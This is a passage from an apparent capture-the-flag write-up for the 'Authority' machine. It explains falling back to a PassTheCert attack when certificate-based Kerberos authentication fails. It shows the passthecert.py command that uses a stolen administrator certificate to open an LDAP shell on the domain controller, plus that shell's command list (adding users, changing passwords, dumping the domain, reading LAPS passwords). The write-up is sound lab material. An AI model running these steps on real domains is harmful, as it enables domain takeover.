 ![alt text](../assets/images/authority12.png)

we cannot but we can use pfx file for interactive LDAP shell.

**PassTheCert -> TGT [Path 1]**

This happens “when a domain controller doesn’t have a certificate installed for smart cards”, according to [this post](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d) from Specterops. Specifically, it happens because “the DC isn’t properly set up for PKINIT and authentication will fail”.

The same post suggests an alternative path:

> If you run into a situation where you can enroll in a vulnerable 
certificate template but the resulting certificate fails for Kerberos 
authentication, you can try authenticating to LDAP via SChannel using 
something like PassTheCert. You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.
> 

[This repo](https://github.com/AlmondOffSec/PassTheCert) has C# and Python tools to do a PassTheCert attack. It also offers an `ldap-shell` option that allows me to run a limited set of commands on the DC. I’ll clone it, and then run `passthecert.py` with the following options:

- `action ldap-shell` - provide a limited set of commands
- `crt administrator.crt -key administrator.key` - the certificate and key files
- `domain authority.htb -dc-ip 10.10.11.222` - target info

It connects

```bash
➜  authority python PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands

# 

# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
```